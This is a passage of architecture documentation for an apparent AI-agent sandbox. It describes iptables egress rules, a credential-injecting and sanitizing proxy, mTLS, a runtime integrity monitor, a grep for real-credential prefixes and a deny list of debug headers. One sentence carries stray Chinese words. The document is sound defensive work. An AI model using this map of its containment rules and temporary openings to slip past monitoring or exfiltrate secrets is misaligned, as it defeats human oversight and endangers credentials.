    Note over NAT: Rule: -p tcp --dport 443<br/>REDIRECT --to-ports 3000
    NAT->>PX: Redirected to localhost:3000
    Note over PX: ALLOW_BUILD=1 → passthrough mode<br/>no TLS MITM
    PX->>EXT: Raw TCP relay
```

#### NAT Rules (Added by network-enable.sh)

**Ref:** `agent/scripts/network-enable.sh:64-75`

```bash

## Create NAT chain

iptables -t nat -N TRAFFIC_REDIRECT

## Redirect HTTP to proxy

iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 80 -j REDIRECT --to-ports 3000

## Redirect HTTPS to proxy

iptables -t nat -A TRAFFIC_REDIRECT -p tcp --dport 443 -j REDIRECT --to-ports 3000

## Link to OUTPUT chain

iptables -t nat -I OUTPUT 1 -j TRAFFIC_REDIRECT
```

#### NAT Lifecycle

| Event | NAT State | Proxy iptables State |
| --- | --- | --- |
| Container starts | No NAT chain | Proxy DROPped (LOCKED) |
| `ALLOW_BUILD=1` detected | NAT chain created, linked | Proxy ACCEPT inserted |
| Build completes | NAT chain flushed and deleted | Proxy ACCEPT removed |

---

### 10. Interaction 9: SSH (Git Operations, Port 22)

SSH is allowed through iptables for Git push/pull operations. The agent container has SSH agent forwarding configured for seamless authentication.


```mermaid
sequenceDiagram
    participant AG as Agent
    participant IPT as iptables TRAFFIC_ENFORCE
    participant GH as github.com:22

    AG->>IPT: SSH connection to github.com:22
    Note over IPT: Rule 13: ACCEPT<br/>-p tcp --dport 22
    IPT->>GH: ACCEPT
    
    AG->>GH: SSH key exchange<br/>(via forwarded agent socket)
    GH-->>AG: Authentication successful
    AG->>GH: git push origin fix/TICKET-123
    GH-->>AG: Push accepted
```

#### iptables Rule

```bash

## traffic-enforcement.sh:110

iptables -A TRAFFIC_ENFORCE -p tcp --dport 22 -j ACCEPT
```

#### SSH Configuration

The agent container mounts the host's SSH agent socket:

```yaml

## docker-compose.yml:228

- ${SSH_AUTH_SOCK}:/home/agent/.ssh/agent.sock:ro

environment:

  - SSH_AUTH_SOCK=/home/agent/.ssh/agent.sock

```

SSH config is filtered during startup to remove macOS-specific options that don't work in Linux:

**Ref:** `agent/scripts/setup-ssh-config.sh`

---

### 11. Complete iptables Rule Chain (LOCKED Mode)

The complete iptables rule chain is documented in [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive).

**Ref:** `agent/scripts/traffic-enforcement.sh:59-154`

#### Critical Design: Rule 13 Precedes Rule 14

Rule 13 (proxy DROP) is evaluated **before** Rule 14 (172.30.0.0/24 ACCEPT). This is essential because the proxy lives on the Docker network (172.30.0.3). Without Rule 13, the agent could reach the proxy through Rule 14 and bypass all traffic enforcement.

#### ALLOW_BUILD=1 Modification

When `ALLOW_BUILD=1` is active, `network-enable.sh` inserts an additional rule:

```bash

## Inserted BEFORE Rule 13 (the proxy DROP rule)

iptables -I TRAFFIC_ENFORCE $drop_line -d $PROXY_IP -p tcp --dport 3000 -j ACCEPT
```

This temporarily allows the agent to reach the proxy on port 3000 while all other rules remain in effect.

#### Runtime Integrity Monitoring

A background process (`runtime-monitor.sh`) verifies the iptables chain every 30 seconds:

| Check | Frequency | Failure Action |
| --- | --- | --- |
| `iptables` command available | 30s | Increment failure counter |
| `TRAFFIC_ENFORCE` chain exists | 30s | Increment failure counter |
| DROP rule present in chain | 30s | Increment failure counter |
| Rule count >= 10 | 30s | Increment failure counter |
| 3 consecutive failures | — | **Emergency shutdown** (stops agent-svc, kills all agent processes) |

**Ref:** `agent/scripts/runtime-monitor.sh:33-101`

---

### 12. Network Interaction Summary Matrix

| # | Path | Protocol | Port | Proxy? | Credentials? | iptables Rule | Active State |
| --- | ------ | ---------- | ------ | -------- | ------------- | --------------- | ------------- |
| 1 | Agent → Local LLM | HTTP | 8080 | No | No (`sk-local`) | Rule 15 (ACCEPT) | Always |
| 2 | Agent → Proxy (HTTP) | HTTP | 3000 | Yes | Injection + Sanitization | Rule 13 (DROP) → temporary ACCEPT | ALLOW_BUILD=1 |
| 3a | Agent → Proxy (CONNECT, MITM) | HTTPS | 443/8443 | Yes (TLS MITM) | Injection + Sanitization | Rule 13 (DROP) → temporary ACCEPT | ALLOW_BUILD=1 (rare) |
| 3b | Agent → Proxy (CONNECT, passthrough) | TCP | any | Raw relay | No inspection | Rule 13 (DROP) → temporary ACCEPT | ALLOW_BUILD=1 |
| 4 | Agent → Memgraph | Bolt | 7687 | No | No | Rule 14 (ACCEPT) | Always |
| 5 | Proxy → PostgreSQL | SQL | 5432 | No | No | Docker network | Proxy startup |
| 6 | Agent → DNS | UDP/TCP | 53 | No | No | Rules 4-11 | Always |
| 7 | Prometheus → Services | HTTP | 3000/8000/9000 | No | No | Docker network | Always (logs profile) |
| 8 | NAT Redirect | TCP | 80/443→3000 | Transparent | Via proxy | NAT chain | ALLOW_BUILD=1 |
| 9 | Agent → SSH | SSH | 22 | No | SSH key | Rule 12 (ACCEPT) | Always |

---

### Key Takeaways

1. **The proxy is blocked by default** — Rule 13 (`DROP` to proxy IP) is the architectural cornerstone. No network interaction with the internet is possible without `ALLOW_BUILD=1` temporarily inserting an ACCEPT rule.

2. **Two distinct CONNECT paths** — HTTPS traffic on ports 443/8443 receives full TLS MITM with credential injection and sanitization. All other traffic uses raw passthrough relay.

3. **DNS is a controlled channel** — Only 3 DNS resolvers are whitelisted. All other DNS queries are logged and dropped, preventing credential exfiltration via DNS tunneling.

4. **NAT transparency** — When enabled, ports 80/443 are transparently redirected to the proxy, ensuring build tools don't need explicit proxy configuration.

5. **Runtime integrity monitoring** — A background process continuously verifies the iptables chain and triggers emergency shutdown after 3 consecutive failures.

---

---

# Section 4: Security Architecture

### Overview

SLAPENIR implements a 10-layer defense-in-depth architecture. Each layer addresses a specific threat category, and layers are designed so that the failure of any single layer does not compromise the system. This document provides a technical walkthrough of each layer with code references, effectiveness ratings, and known limitations.


```mermaid
graph TB
    subgraph "DEFENSE-IN-DEPTH: 10 SECURITY LAYERS"
        L1["Layer 1: Zero-Knowledge Architecture<br/>Credential Isolation"]
        L2["Layer 2: Network Isolation<br/>Docker Network Segmentation"]
        L3["Layer 3: mTLS Authentication<br/>Cryptographic Identity"]
        L4["Layer 4: Credential Sanitization<br/>Aho-Corasick O(N) Matching"]
        L5["Layer 5: Memory Safety<br/>Rust + Zeroize"]
        L6["Layer 6: Traffic Enforcement<br/>iptables + netctl"]
        L7["Layer 7: Response Sanitization<br/>Body + Header + Paranoid Verify"]
        L8["Layer 8: Size Limits<br/>OOM Protection"]
        L9["Layer 9: Content-Length Handling<br/>HTTP Desync Prevention"]
        L10["Layer 10: Monitoring & Observability<br/>Prometheus + Grafana + Audit Logs"]
    end

    L1 --> L4
    L2 --> L6
    L3 --> L5
    L4 --> L7
    L5 --> L8
    L6 --> L10
    L7 --> L9

    style L1 fill:#c0392b,color:#fff
    style L2 fill:#2980b9,color:#fff
    style L3 fill:#8e44ad,color:#fff
    style L4 fill:#c0392b,color:#fff
    style L5 fill:#27ae60,color:#fff
    style L6 fill:#2980b9,color:#fff
    style L7 fill:#c0392b,color:#fff
    style L8 fill:#f39c12,color:#fff
    style L9 fill:#f39c12,color:#fff
    style L10 fill:#16a085,color:#fff
```

---

### Layer 1: Zero-Knowledge Architecture

#### Threat Addressed

Credential theft from environment variables, configuration files, or process memory accessible to the agent.

#### Implementation

The foundational security model ensures the agent **never possesses real credentials**. All secrets are replaced with `DUMMY_*` placeholders at container startup, and real credentials exist only in the proxy's memory-protected `SecretMap`.


```mermaid
flowchart LR
    subgraph HOST["Host .env"]
        REAL["OPENAI_API_KEY=sk-proj-abc123<br/>GITHUB_TOKEN=ghp_real_token<br/>AWS_ACCESS_KEY_ID=AKIA..."]
    end

    subgraph AGENT["Agent .env.agent"]
        DUMMY["OPENAI_API_KEY=DUMMY_OPENAI<br/>GITHUB_TOKEN=DUMMY_GITHUB<br/>AWS_ACCESS_KEY_ID=DUMMY_AWS_ACCESS"]
    end

    subgraph PROXY["Proxy SecretMap"]
        MAP["DUMMY_OPENAI → sk-proj-abc123<br/>DUMMY_GITHUB → ghp_real_token<br/>DUMMY_AWS_ACCESS → AKIA..."]
    end

    REAL --> | Mounted :ro<br/>Read by generate-dummy-env.sh | DUMMY
    REAL --> | Loaded via env_file<br/>docker-compose.yml:133 | MAP

    style REAL fill:#c0392b,color:#fff
    style DUMMY fill:#27ae60,color:#fff
    style MAP fill:#e67e22,color:#fff
```

#### Dummy Credential Generation

**Ref:** `agent/scripts/generate-dummy-env.sh:51-135`

| Real Variable | Dummy Replacement | Pattern |
| --- | --- | --- |
| `OPENAI_API_KEY=sk-proj-abc123` | `DUMMY_OPENAI` | `*_API_KEY` → `DUMMY_<NAME>` |
| `ANTHROPIC_API_KEY=sk-ant-xyz` | `DUMMY_ANTHROPIC` | `*_API_KEY` → `DUMMY_<NAME>` |
| `GITHUB_TOKEN=ghp_real_token` | `DUMMY_GITHUB` | `*_TOKEN` → `DUMMY_<NAME>` |
| `AWS_ACCESS_KEY_ID=AKIA...` | `DUMMY_AWS_ACCESS` | `*_SECRET` → `DUMMY_<NAME>` |
| `STRIPE_SECRET_KEY=sk_live_...` | `DUMMY_STRIPE_SECRET` | `*_PASSWORD` → `DUMMY_<NAME>` |
| `AWS_REGION=us-east-1` | `us-east-1` (unchanged) | Non-secret vars preserved |

#### Startup Validation

The agent runs a 9-test security validation suite on every boot. Test 1 explicitly scans for real credential patterns:

**Ref:** `agent/scripts/startup-validation.sh:52-86`

```bash

## Check for real credentials in agent environment

PATTERNS=("sk-proj-" "sk-ant-" "AIza" "ghp_" "github_pat_")
for pattern in "${PATTERNS[@]}"; do
    if env | grep -q "$pattern"; then
        echo "FAIL: Real credential detected: $pattern"
        exit 1
    fi
done
```

#### N:1 Dummy-to-Real Mapping

Multiple dummy placeholders can map to a single real credential:

**Ref:** `proxy/src/sanitizer.rs:211-218`

```rust
for strategy in strategies {
    if let Some(real_cred) = strategy.real_credential() {
        let dummies = strategy.dummy_patterns();
        for _ in &dummies {
            real_secrets.push(real_cred.clone());  // Same real, multiple dummies
        }
        dummy_secrets.extend(dummies);
    }
}
```

This enables patterns like `DUMMY_GITHUB` and `DUMMY_GH_PAT` both resolving to the same real GitHub token.

#### Effectiveness: 98%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Credential isolation | DUMMY_* placeholders | ★★★★★ |
| Just-in-time injection | Aho-Corasick pattern matching | ★★★★★ |
| Memory protection | Zeroize trait on Drop | ★★★★★ |
| Audit trail | Structured logging | ★★★★☆ |

**Limitations:** Requires correct `.env` configuration. Developer discipline needed for DUMMY_* usage in agent code.

---

### Layer 2: Network Isolation

#### Threat Addressed

Direct internet access from the agent container, enabling credential exfiltration via HTTP, DNS, or any network protocol. For the complete iptables rule chain and enforcement details, see [Section 6: Network Isolation Deep-Dive](#section-6-network-isolation-deep-dive).

#### Implementation

Docker bridge network with controlled external routing:

```yaml
networks:
  slape-net:
    driver: bridge
    internal: ${NETWORK_INTERNAL:-false}
    ipam:
      config:

        - subnet: 172.30.0.0/24

```

**Ref:** `docker-compose.yml:387-401`

#### Network Modes

| Mode | Setting | Agent Can Access | Use Case |
| --- | --- | --- | --- |
| Development | `internal: false` | Internet via proxy (when enabled), local LLM | Standard development |
| Air-gapped | `internal: true` | Only internal services | Maximum security, no local LLM |

#### Docker-Native Isolation

The `internal: true` flag provides kernel-level egress blocking at the Docker level. This is enforced by the Docker engine through netfilter rules that cannot be modified from within containers.

#### Effectiveness: 95%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Egress blocking | Docker `internal: true` | ★★★★★ |
| Service isolation | Bridge network | ★★★★☆ |
| DNS control | Docker DNS + iptables | ★★★★☆ |

**Limitations:** `internal: false` required for local LLM access. Compensated by Layer 6 (iptables enforcement).

---

### Layer 3: mTLS Authentication

#### Threat Addressed

Man-in-the-middle attacks, unauthorized proxy access, service impersonation. For certificate management and rotation procedures, see [Section 7: mTLS & Certificate Architecture](#section-7-mtls--certificate-architecture).

#### Implementation

```mermaid
sequenceDiagram
    participant AG as Agent
    participant CA as Step-CA :9000
    participant PX as Proxy :3000

    Note over AG: Container boot
    AG->>CA: step ca bootstrap<br/>(one-time enrollment token)
    CA->>CA: Validate token
    CA->>AG: Issue client certificate<br/>(24h validity, CN=agent.slapenir.local)

    Note over AG: Request flow
    AG->>PX: TLS ClientHello + client_cert
    PX->>PX: Verify client cert against CA root
    PX->>PX: Check CN against agent allowlist
    PX->>AG: TLS ServerHello + server_cert
    AG->>PX: Verify server cert against CA root
    Note over AG,PX: mTLS session established
    AG->>PX: Encrypted request (DUMMY_GITHUB)
    PX->>AG: Encrypted response ([REDACTED])
```

#### Certificate Lifecycle

**Ref:** `proxy/src/mtls.rs:39-103`, `ca-data/config/ca.json`

| Phase | Duration | Process |
| --- | --- | --- |
| Bootstrap | Container start | Agent requests cert with one-time token |
| Issuance | ~1s | Step-CA issues 24-hour certificate via ACME-like protocol |
| Rotation | 24h (default) | Automated renewal via Step-CA |
| Revocation | Immediate | CRL update propagates to all services |

#### Certificate Chain

```text
Root CA (SLAPENIR-CA)
├── Intermediate CA
│   ├── Server Certificate (proxy.slapenir.local) → Proxy
│   └── Client Certificate (agent.slapenir.local) → Agent
```

#### mTLS Configuration

**Ref:** `proxy/src/mtls.rs:22-29`

```rust
pub struct MtlsConfig {
    pub server_config: Arc<ServerConfig>,
    pub client_config: Arc<ClientConfig>,
    pub enforce: bool,
}
```

| Variable | Default | Purpose |
| --- | --- | --- |
| `MTLS_ENABLED` | `false` | Enable mTLS for proxy-agent communication |
| `MTLS_ENFORCE` | `false` | Reject connections without valid client cert |
| `MTLS_CA_CERT` | `/certs/root_ca.crt` | CA root certificate path |
| `MTLS_SERVER_CERT` | `/certs/proxy.crt` | Server certificate path |
| `MTLS_SERVER_KEY` | `/certs/proxy.key` | Server private key path |

#### Effectiveness: 88%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Mutual authentication | WebPkiClientVerifier | ★★★★★ |
| Short-lived certificates | 24h default | ★★★★★ |
| Automated rotation | Step-CA ACME | ★★★★☆ |
| Revocation | CRL support | ★★★☆☆ |

**Limitations:** `MTLS_ENFORCE=false` by default (development convenience). Client certificate extraction from TLS sessions is not fully implemented (`mtls.rs:126-132`).

---

### Layer 4: Credential Sanitization

#### Threat Addressed

Credential leakage through response bodies (API responses returning real tokens in JSON, XML, or binary payloads).

For the complete credential injection and sanitization implementation, see [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention).

#### Implementation: Aho-Corasick Algorithm

The proxy uses the Aho-Corasick algorithm for O(N) multi-pattern matching. Unlike standard regex (which is O(N*M) with backtracking risk), Aho-Corasick builds a finite automaton that scans all patterns simultaneously in a single pass.

```mermaid
flowchart TD
    INPUT["Input string:<br/>Authorization: Bearer DUMMY_GITHUB"] --> AC["Aho-Corasick<br/>Automaton"]
    
    AC --> SCAN["Single-pass scan O(N)<br/>(character by character)"]
    
    SCAN --> MATCH["Match found:<br/>DUMMY_GITHUB at position 25"]
    
    MATCH --> REPLACE["Replace with real value<br/>O(1) lookup in SecretMap"]
    
    REPLACE --> OUTPUT["Output string:<br/>Authorization: Bearer ghp_real_token"]

    style AC fill:#8e44ad,color:#fff
    style MATCH fill:#e67e22,color:#fff
```

#### Automaton Construction

**Ref:** `proxy/src/sanitizer.rs:46-77`

Two automatons are built at proxy startup:

| Automaton | Patterns | Replacement | Purpose |
| --- | --- | --- | --- |
| `patterns` (injection) | DUMMY_* tokens | Real credentials | Outbound request modification |
| `sanitize_patterns` (sanitization) | Real credentials | `[REDACTED]` | Inbound response scrubbing |

```rust
// Injection automaton (dummy -> real)
let patterns = AhoCorasickBuilder::new()
    .ascii_case_insensitive(false)
    .build(&dummy_secrets)?;

// Sanitization automaton (real -> [REDACTED]) — CACHED at startup
let sanitize_patterns = AhoCorasickBuilder::new()
    .ascii_case_insensitive(false)
    .build(&real_secrets)?;
```

#### Binary-Safe Sanitization (Security Fix A)

**Ref:** `proxy/src/sanitizer.rs:109-131`

Processes raw bytes, handling non-UTF-8 payloads correctly. This prevents a bypass where an attacker could encode credentials in a non-UTF-8 binary response.

```rust
pub fn sanitize_bytes(&self, data: &[u8]) -> Cow<'_, [u8]> {
    let byte_patterns = AhoCorasickBuilder::new()
        .ascii_case_insensitive(false)
        .build(&self.real_secrets_bytes)
        .expect("Failed to build byte pattern matcher");

    let redacted: Vec<&[u8]> = self
        .real_secrets_bytes
        .iter()
        .map( | _ | b"[REDACTED]" as &[u8])
        .collect();

    byte_patterns.replace_all_bytes(data, &redacted).into()
}
```

#### Performance Characteristics

| Operation | Complexity | Per-Request Cost |
| --- | --- | --- |
| Automaton construction | O(M*K) where M=pattern length, K=pattern count | Once at startup |
| Injection scan | O(N) where N=input length | Linear in body size |
| Sanitization scan | O(N) | Linear in body size |
| Replacement | O(1) per match | Constant lookup |

**Verified by:** `proxy/tests/security_bypass_tests.rs:24-143` (non-UTF-8 bypass tests)

#### Effectiveness: 97%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Pattern matching | Aho-Corasick O(N) | ★★★★★ |
| Binary safety | Byte-level processing | ★★★★★ |
| Split detection | Stream buffering | ★★★★☆ |
| Performance | Cached automaton | ★★★★★ |

---

### Layer 5: Memory Safety

#### Threat Addressed

Memory-based credential extraction through core dumps, `/proc/self/mem` reads, use-after-free exploitation, or forensic memory analysis.

#### Implementation: Rust Ownership + Zeroize

```mermaid
stateDiagram-v2
    [*] --> Load: Proxy startup
    Load --> Active: env var to String to SecretMap
    Active --> InUse: inject / sanitize
    InUse --> Transit: TLS 1.3 encryption
    Transit --> Cleanup: Request complete
    Cleanup --> Zeroized: Drop trait calls zeroize
    Zeroized --> Verified: Memory overwritten with zeros
    Verified --> [*]: No forensic recovery possible
```

#### SecretMap Memory Protection

The `SecretMap` struct and its dual automaton architecture are covered in detail in [Section 5.2: SecretMap Automaton Construction](#2-secretmap-automaton-construction).

**Ref:** `proxy/src/sanitizer.rs:27-42`

```rust
#[derive(Clone, Zeroize, ZeroizeOnDrop)]
pub struct SecretMap {
    #[zeroize(skip)]
    patterns: AhoCorasick,          // Automaton (no secret data)

    #[zeroize(skip)]
    sanitize_patterns: AhoCorasick, // Automaton (no secret data)

    // THESE ARE ZEROIZED ON DROP:
    real_secrets: Vec<String>,       // Real credential values
    dummy_secrets: Vec<String>,      // Dummy placeholder values

    #[zeroize(skip)]
    real_secrets_bytes: Vec<Vec<u8>>, // Byte representations (skipped — derived)
}
```

When the `SecretMap` is dropped (proxy shutdown, task completion), the `ZeroizeOnDrop` derive macro automatically:

1. Overwrites `real_secrets` with zeros
2. Overwrites `dummy_secrets` with zeros
3. Calls `std::ptr::drop_in_place()` to prevent compiler optimization

#### Rust Safety Guarantees

| Vulnerability Class | Rust Prevention | Mechanism |
| --- | --- | --- |
| Buffer overflow | ★★★★★ | Compile-time bounds checking |
| Use after free | ★★★★★ | Borrow checker (ownership system) |
| Double free | ★★★★★ | Single ownership, no manual `free` |
| Null pointer dereference | ★★★★★ | `Option<T>` type, no null references |
| Data races | ★★★★★ | `Send`/`Sync` traits, ownership transfer |
| Uninitialized memory | ★★★★★ | All variables must be initialized |

#### No `unsafe` Code

The proxy codebase contains zero `unsafe` blocks. This can be verified:

```bash
grep -r "unsafe" proxy/src/  # Returns nothing
```

#### Effectiveness: 97%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Buffer overflow | Bounds checking | ★★★★★ |
| Use after free | Borrow checker | ★★★★★ |
| Double free | Ownership system | ★★★★★ |
| Memory wiping | Zeroize + ZeroizeOnDrop | ★★★★★ |
| Deterministic cleanup | No garbage collector | ★★★★★ |

**Limitations:** Relies on correct `zeroize` crate implementation. Derived byte representations (`real_secrets_bytes`) are marked `#[zeroize(skip)]`.

---

### Layer 6: Traffic Enforcement (iptables + netctl)

#### Threat Addressed

Network bypass attempts, unauthorized internet access, DNS exfiltration, build tool abuse.

#### Implementation: Kernel-Level Default-Deny

This is the most critical enforcement layer. The proxy IP is explicitly DROPped in iptables, ensuring no application-level bypass can reach the internet.

```mermaid
flowchart TD
    OUT["Agent process<br/>initiates connection"] --> OUTPUT["OUTPUT chain"]
    OUTPUT --> TE["TRAFFIC_ENFORCE<br/>(position 1)"]
    
    TE --> R1{"Loopback?"}
    R1 --> | Yes | ACCEPT1["ACCEPT"]
    R1 --> | No | R2{"Localhost?"}
    R2 --> | Yes | ACCEPT2["ACCEPT"]
    R2 --> | No | R3{"ESTABLISHED?"}
    R3 --> | Yes | ACCEPT3["ACCEPT"]
    R3 --> | No | R4{"DNS to trusted?"}
    R4 --> | Yes | ACCEPT4["ACCEPT"]
    R4 --> | No | R5{"DNS to other?"}
    R5 --> | Yes | LOGDROP["LOG [DNS-BLOCK]<br/>+ DROP"]
    R5 --> | No | R6{"Port 22?"}
    R6 --> | Yes | ACCEPT5["ACCEPT"]
    R6 --> | No | R7{"Proxy IP?"}
    R7 --> | Yes | DROP["DROP<br/>(DEFAULT BLOCK)"]
    R7 --> | No | R8{"172.30.0.0/24?"}
    R8 --> | Yes | ACCEPT6["ACCEPT"]
    R8 --> | No | R9{"LLM host:port?"}
    R9 --> | Yes | ACCEPT7["ACCEPT"]
    R9 --> | No | LOG["LOG [BYPASS-ATTEMPT]"]
    LOG --> REJECT["REJECT<br/>(fast fail)"]

    style DROP fill:#c0392b,color:#fff
    style LOGDROP fill:#c0392b,color:#fff
    style REJECT fill:#c0392b,color:#fff
    style ACCEPT1 fill:#27ae60,color:#fff
    style ACCEPT2 fill:#27ae60,color:#fff
    style ACCEPT3 fill:#27ae60,color:#fff
    style ACCEPT4 fill:#27ae60,color:#fff
    style ACCEPT5 fill:#27ae60,color:#fff
    style ACCEPT6 fill:#27ae60,color:#fff
    style ACCEPT7 fill:#27ae60,color:#fff
```

#### The netctl setuid Bridge

The agent runs as a non-root user but needs controlled iptables access. This is achieved through a setuid root C binary.

**Ref:** `agent/scripts/netctl.c`

```c
// Compiled: gcc -static -o netctl netctl.c
// Permissions: chmod 4755 (setuid root)
// Only accepts: "enable", "disable", "status"

int main(int argc, char *argv[]) {
    if (argc != 2) { usage(); return 1; }
    
    if (strcmp(argv[1], "enable") == 0)
        execl("/home/agent/scripts/network-enable.sh", ...);
    else if (strcmp(argv[1], "disable") == 0)
        execl("/home/agent/scripts/network-enable.sh", ...);
    else if (strcmp(argv[1], "status") == 0)
        execl("/home/agent/scripts/network-enable.sh", ...);
    else { usage(); return 1; }
}
```

**Security properties:**

- Only 3 commands accepted (no arbitrary script execution)
- Binary is statically compiled (no dynamic library injection)
- Owned by root with setuid bit (4755)
- Executes only `network-enable.sh` as root

#### ALLOW_BUILD=1 Flow

```mermaid
sequenceDiagram
    participant AG as Agent (non-root)
    participant TRAP as BASH_ENV DEBUG Trap
    participant NETCTL as netctl (setuid root)
    participant IPT as iptables
    participant PX as Proxy :3000

    AG->>TRAP: ALLOW_BUILD=1 ./gradlew build
    TRAP->>TRAP: Detect ALLOW_BUILD=1 in command
    TRAP->>NETCTL: netctl enable
    
    NETCTL->>IPT: Insert ACCEPT for proxy:3000<br/>(before DROP rule)
    NETCTL->>IPT: Create NAT TRAFFIC_REDIRECT chain<br/>(ports 80/443 → 3000)
    NETCTL->>NETCTL: Create /tmp/slapenir-network-enabled.lock
    
    TRAP->>AG: Set HTTP_PROXY=http://proxy:3000
    TRAP->>AG: Set HTTPS_PROXY=http://proxy:3000
    
    AG->>PX: HTTP request (through proxy)
    PX->>AG: Response (passthrough, no MITM for ALLOW_BUILD)
    
    TRAP->>NETCTL: netctl disable (EXIT trap)
    NETCTL->>IPT: Remove ACCEPT rule
    NETCTL->>IPT: Flush and delete NAT chain
    NETCTL->>NETCTL: Remove lock file
    Note over IPT: Proxy DROPped again
```

#### Build Cache Seeding (Offline Builds)

**Ref:** `agent/scripts/lib/build-wrapper.sh`

Build caches can be seeded from the host to enable offline dependency resolution without needing `ALLOW_BUILD=1`:

```bash
make copy-cache TYPE=gradle   # Copies ~/.gradle/caches + wrapper
make copy-cache TYPE=npm      # Copies ~/.npm
make copy-cache TYPE=all      # All supported caches
```

#### Effectiveness: 95%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Egress control | iptables REJECT | ★★★★★ |
| DNS filtering | Whitelist only | ★★★★★ |
| Proxy blocked by default | iptables DROP on proxy IP | ★★★★★ |
| Temporary enable via netctl | setuid binary (CAP_NET_ADMIN) | ★★★★☆ |
| Build cache seeding | `make copy-cache` | ★★★★☆ |
| Audit logging | LOG prefix | ★★★★☆ |

---

### Layer 7: Response Sanitization

#### Threat Addressed

Secret leakage through HTTP response bodies, headers, cookies, redirect URLs, and debug metadata.

#### Implementation: Multi-Stage Pipeline

```mermaid
flowchart TD
    RESP["HTTP Response from<br/>External API"] --> BODY["Stage 1: Body Sanitization<br/>sanitize_bytes()<br/>(binary-safe, O(N))"]
    
    BODY --> PARANOID["Stage 2: Paranoid Verification<br/>Second pass of sanitize_bytes()<br/>If secret found → 500 error<br/>(fail-closed)"]
    
    PARANOID --> HDR["Stage 3: Header Sanitization<br/>sanitize_headers()<br/>Remove blocked headers<br/>Sanitize remaining values"]
    
    HDR --> CHECKSUM["Stage 4: Checksum Removal<br/>Remove ETag, Content-MD5,<br/>Content-CRC32<br/>(body was modified)"]
    
    CHECKSUM --> CL["Stage 5: Content-Length Fix<br/>Recalculate Content-Length<br/>Remove Transfer-Encoding"]
    
    CL --> SAFE["Safe Response → Agent"]

    style PARANOID fill:#c0392b,color:#fff
    style SAFE fill:#27ae60,color:#fff
```

#### Paranoid Verification (Fail-Closed)

**Ref:** `proxy/src/proxy.rs:317-324`

After the first sanitization pass, the proxy runs a second pass on the result. If any secret is detected in the already-sanitized output, the proxy returns a 500 error instead of the leaked response:

```rust
let verification = state.secret_map.sanitize_bytes(&sanitized_body);
if verification != sanitized_body {
    tracing::error!("Secret sanitization failed verification!");
    return Err(ProxyError::ResponseBodyRead(
        "Sanitization verification failed".to_string(),
    ));
}
```

This is a **fail-closed** design:宁可 return an error to the agent than risk a secret leaking.

#### Blocked Headers

**Ref:** `proxy/src/sanitizer.rs:18-24`

| Header | Reason for Removal |
| --- | --- |
| `x-debug-token` | May contain authentication tokens |
| `x-debug-info` | Debug information may leak internal state |
| `server-timing` | Performance data useful for timing attacks |
| `x-runtime` | Framework runtime information |
| `x-request-debug` | Request debugging metadata |

#### Header Sanitization

**Ref:** `proxy/src/sanitizer.rs:140-166`

Headers are processed in two stages:

1. **Blocked headers** — completely removed
2. **Remaining headers** — values sanitized via `sanitize()` (Aho-Corasick scan)

Headers commonly containing secrets:

- `Set-Cookie: session=ghp_real_token` → `Set-Cookie: session=[REDACTED]`
- `Location: https://redirect?token=ghp_real_token` → `Location: https://redirect?token=[REDACTED]`
- `WWW-Authenticate: Bearer ghp_real_token` → `WWW-Authenticate: Bearer [REDACTED]`

#### Effectiveness: 90%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Body sanitization | Binary-safe Aho-Corasick | ★★★★★ |
| Header sanitization | Value-level scan | ★★★★★ |
| Blocked headers | Hardcoded deny list | ★★★★★ |
| Paranoid verification | Fail-closed double-pass | ★★★★★ |
| Checksum removal | ETag/MD5/CRC32 strip | ★★★★★ |

**Limitations:** WebSocket frame sanitization not implemented. Trailer headers not supported.

---

### Layer 8: Size Limits (OOM Protection)

#### Threat Addressed

Memory exhaustion attacks via oversized request or response bodies, potentially forcing the proxy to swap or crash, enabling memory inspection.

#### Implementation

**Ref:** `proxy/src/proxy.rs:26-28`

```rust
pub const DEFAULT_MAX_REQUEST_SIZE: usize = 10 * 1024 * 1024;   // 10 MB
pub const DEFAULT_MAX_RESPONSE_SIZE: usize = 100 * 1024 * 1024; // 100 MB
```

#### Enforcement Points

| Location | Direction | Limit | Error on Exceed |
| --- | --- | --- | --- |
| `proxy.rs:229-239` | Request (inbound) | 10 MB | 413 Payload Too Large |
| `proxy.rs:292-302` | Response (inbound) | 100 MB | 502 Bad Gateway |
| `connect_full.rs:261` | CONNECT request | 1 MB | Tunnel error |
| `connect_full.rs:313` | CONNECT response | 10 MB | Tunnel error |
| `http_parser.rs` | HTTP headers | 16 KB | Parse error |

#### Error Response

```rust
let body_bytes = axum::body::to_bytes(request.into_body(), max_request_size)
    .await
    .map_err( | e | {
        let err_str = e.to_string();
        if err_str.contains("length limit") {
            ProxyError::RequestBodyTooLarge(max_request_size)  // 413
        } else {
            ProxyError::RequestBodyRead(err_str)               // 400
        }
    })?;
```

#### Effectiveness: 85%

| Property | Value | Effectiveness |
| --- | --- | --- |
| Max request size | 10 MB (configurable) | ★★★★★ |
| Max response size | 100 MB (configurable) | ★★★★☆ |
| Max HTTP header | 16 KB | ★★★★★ |
| CONNECT request limit | 1 MB | ★★★★☆ |

**Limitations:** 100 MB response limit may be too large for some environments. No streaming sanitization mode for large file transfers.

---

### Layer 9: Content-Length Handling

#### Threat Addressed

HTTP desynchronization (desync) attacks where modified Content-Length enables request smuggling or response splitting.

#### Implementation

**Ref:** `proxy/src/proxy.rs:109-146`

When the proxy modifies a response body (sanitization changes body length), it must recalculate the `Content-Length` header. Additionally, all checksums that depend on the original body content must be removed.

```rust
pub fn build_response_headers(original_headers: &HeaderMap, body_len: usize) -> HeaderMap {
    let mut headers = HeaderMap::new();

    // Set correct Content-Length for sanitized body
    headers.insert(
        axum::http::header::CONTENT_LENGTH,
        HeaderValue::from(body_len),
    );

    for (name, value) in original_headers.iter() {
        match name.as_str().to_lowercase().as_str() {
            "content-length" | "transfer-encoding" => continue,  // We set these
            "etag" | "content-md5" | "content-crc32" => continue, // Body modified
            "x-debug-token" | "x-debug-info" | "server-timing" | "x-runtime" => continue,
            _ => { headers.insert(name.clone(), value.clone()); }
